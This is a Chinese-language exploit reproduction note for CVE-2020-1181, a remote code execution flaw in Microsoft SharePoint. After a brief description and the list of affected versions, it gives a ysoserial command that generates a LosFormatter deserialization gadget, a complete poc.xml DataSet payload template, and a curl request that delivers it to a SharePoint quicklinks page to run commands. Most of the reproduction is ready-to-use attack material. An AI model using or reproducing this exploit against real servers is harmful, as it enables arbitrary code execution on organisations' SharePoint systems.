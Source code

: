 （CVE-2020-1181）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

`SharePoint Portal Server`
是一套门户网站解决方案，使得企业能够便捷地开发出智能的门户网站，能够无缝连接到用户、团队和知识。因此用户能够更好地利用业务流程中的相关信息，更有效地开展工作。

当`Microsoft SharePoint Server`无法正确识别和过滤不安全的`ASP.Net Web`控件时，将会存在一处远程代码执行漏洞。成功利用此漏洞的远程攻击者(需要身份验证)通过创建特制的页面，可以在`SharePoint`应用进程池的上下文中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016Microsoft SharePoint Foundation 2010 Service Pack 2Microsoft SharePoint Foundation 2013 Service Pack 1Microsoft SharePoint Server 2019

三、复现过程
------------

    ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c cale.exe

![1.png](./.resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId24.png)

替换掉poc.xml内的payload

> Poc.xml

    <DataSet>
      <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">
        <xs:element name="somedataset" msdata:IsDataSet="true" msdata:UseCurrentLocale="true">
          <xs:complexType>
            <xs:choice minOccurs="0" maxOccurs="unbounded">
              <xs:element name="Exp_x0020_Table">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="pwn" msdata:DataType="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:choice>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">
        <somedataset>
          <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">
            <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
            <ExpandedElement/>
            <ProjectedProperty0>
                <MethodName>Deserialize</MethodName>
                <MethodParameters>
                    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
            </ProjectedProperty0>
            </pwn>
          </Exp_x0020_Table>
        </somedataset>
      </diffgr:diffgram>
    </DataSet>

通过 `curl -L -v --ntlm --negotiate "https://www.0-sec.org/_layouts/15/quicklinksdialogform.aspx?Mode=Suggestion" --data "viewstate=&__SUGGESTIONSCHACHE=urlencode(poc.xml)”`

![2.png](./.resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

触发漏洞，执行命令
